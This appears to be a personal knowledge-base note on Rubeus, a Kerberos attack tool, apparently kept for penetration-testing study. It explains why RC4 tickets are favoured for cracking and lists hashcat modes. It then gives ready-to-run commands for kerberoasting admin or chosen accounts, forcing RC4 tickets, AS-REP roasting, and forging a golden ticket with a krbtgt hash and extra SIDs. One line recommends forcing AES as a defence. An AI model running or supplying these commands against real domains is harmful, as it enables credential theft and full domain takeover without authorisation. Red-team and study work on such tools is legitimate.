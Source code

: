 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
Rebeus is a tool for interacting with raw kerberos. It can make general interactions but also attacks, boasting a vast number of options and configuration settings.

Some key features include:
- Performing kerberoasting and outputting hashes to a file
- Using alternative credentials
- Performing kerberoasting followed by a [[Password Attacks#Pass-the-Hash|pass-the-hash]] attack
- Performing "opsec" kerberoasting to filter out AES-enabled accounts
- Requesting tickets for accounts passwords set between a specific date range
- Placing a limit on the number of tickets requested
- Performing AES kerberoasting
### A word on encryption
Kerberos can use a variety of encryption algorithms (eg. RC4, AES-128, AES-265). In most cases, we want to focus on `RC4` encrypted tickets as that algorithm is easier to crack.
A ticket is prefixed with `$krb5tgs$23$*`, where `23` is `RC4` (type 23):
- RC4 : type 23 : hashcat `13100`
- AES-128 : type 17 : hashcat `19600`
- AES-256 : type 18 : hashcat `19700`

> RECOMMENDATION: Force AES encryption for kerberos tickets (can be done in AD config)
## Installation
```

```

## Documentation
**Cheatsheet:** 
**Website:** https://github.com/GhostPack/Rubeus
## Usage
### Kerberoast accounts that have admin
```PowerShell
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

### Kerberoast a specific user
```PowerShell
.\Rubeus.exe kerberoast /user:[user] /nowrap
```

### Request a RC4 encrypted ticket
> This only works for Windows Server 2016 and earlier, unless the group policy is modified to allow RC4
```PowerShell
.\Rubeus.exe kerberoast /tgtdeleg /user:[user] /nowrap
```

### ASREPRoasting
```PowerShell
.\Rubeus.exe asreproast /user:[user] /nowrap /format:hashcat
```
> Hashcat mode : 18200

### Create a golden ticket
```PowerShell
.\Rubeus.exe golden /rc4:[krbtgt-acc-nthash] /domain:[domain] /sid:[domain-sid] /sids:[additional-sids] /user:[user] /ptt
```